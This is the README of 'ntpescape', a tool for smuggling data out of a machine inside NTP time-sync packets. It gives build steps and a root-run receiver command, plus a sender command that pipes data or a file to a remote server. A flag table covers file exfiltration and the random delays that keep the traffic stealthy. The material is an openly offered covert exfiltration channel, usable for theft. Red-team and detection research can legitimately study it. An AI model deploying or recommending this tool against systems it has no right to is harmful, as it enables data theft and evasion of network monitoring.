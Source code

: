 Table of Contents
-----------------
- [`ntpescape`](#ntpescape)
  - [Screenshots](#screenshots)
  - [Table of Contents](#table-of-contents)
  - [Quickstart](#quickstart)
  - [Detailed Usage](#detailed-usage)
    - [Sender](#sender)
    - [Receiver](#receiver)
  - [How it works](#how-it-works)
    - [NTP protocol basics](#ntp-protocol-basics)
    - [NTP packet structure](#ntp-packet-structure)
    - [Sender message embedding](#sender-message-embedding)
    - [Receiver operation](#receiver-operation)
    - [Reliable data transfer](#reliable-data-transfer)
  - [Limitations / Future Work](#limitations--future-work)

Quickstart
----------

Clone the repository and build:
```bash
git clone git@github.com:evallen/ntpescape.git
make build
```

Put the receiver executable `./bin/recv` on the server
you want to use to receive data. Then, run
```bash
sudo ./recv -d :123  # 123 is NTP port
```

Put the sender executable `./bin/send/` on the machine you
want to exfiltrate data from. Then run the following to 
quickly send data over NTP (not stealthily).
```bash
echo "hello, world" | ./send -d <put_server_here>:123 -tm 0 -tM 0
```

Detailed Usage
--------------

### Sender

Pass input to the sender through STDIN or a file.

`./send [-d string] [-f string] [-h] [-tM int] [-tm int]`

|Flag|Meaning|Description|
|----|-------|-----------|
|`-d string`| destination | the host to send NTP packets to (default `localhost:123`)|
|`-f string`| file | an optional file to exfiltrate from ('`-`' for STDIN) (default "`-`")|
|`-h`|help| print help|
|`-tM int`| maxdelay | the maximum time (secs. >= mindelay >= 0) between messages sent. 0 = no delay. (default 1024)|
|`-tm int`| mindelay | the minimum time (secs. >= 0) between messages sent. 0 = no delay. (default 64)|
